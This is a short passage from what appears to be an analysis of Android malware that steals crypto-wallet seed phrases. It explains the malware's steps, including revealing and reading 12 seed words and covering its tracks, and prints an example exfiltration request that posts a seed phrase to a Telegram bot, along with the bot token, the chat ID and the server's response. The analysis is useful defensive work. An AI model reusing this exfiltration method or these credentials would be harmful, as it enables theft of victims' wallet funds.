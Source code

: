 **What it does:**

- **Reveals** seed words (clicks children `3` and `4`).
- **Extracts** text from **12 fixed UI positions**:
    - `3, 5, 7, 9, 11, 13, 15, 17, 19, 21, 23, 25`
- **Concatenates** into a single string (`values2`).
- **Exfiltrates** via `a()` to Telegram:
    - **Bot Token:** `2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY`
    - **Chat ID:** `1001491052715`
- **Covers tracks** by pressing **BACK**.

```java
//Example Request
POST /bot2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY/sendMessage HTTP/1.1
Host: api.telegram.org
User-Agent: Dalvik/2.1.0 (Linux; U; Android 9; LDPlayer Build/PQ3A.190605.006)
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

chat_id=-1001491052715&text=fox alley grit suffer endless appear exact undo curve clump tiger choice

```

```java
//Example Response
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 19 Aug 2025 21:43:15 GMT
Content-Type: application/json
Content-Length: 312
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Expose-Headers: Content-Length,Content-Type,Date,Server,Connection

{
  "ok": true,
  "result": {
    "message_id": 47382,
    "from": {
      "id": 2012379995,
      "is_bot": true
    },
    "chat": {
      "id": -1001491052715,
      "title": "Trust Wallets",
      "type": "channel"
    },
    "date": 1724104995,
    "text": "fox alley grit suffer endless appear exact undo curve clump tiger choice"
  }
}

```
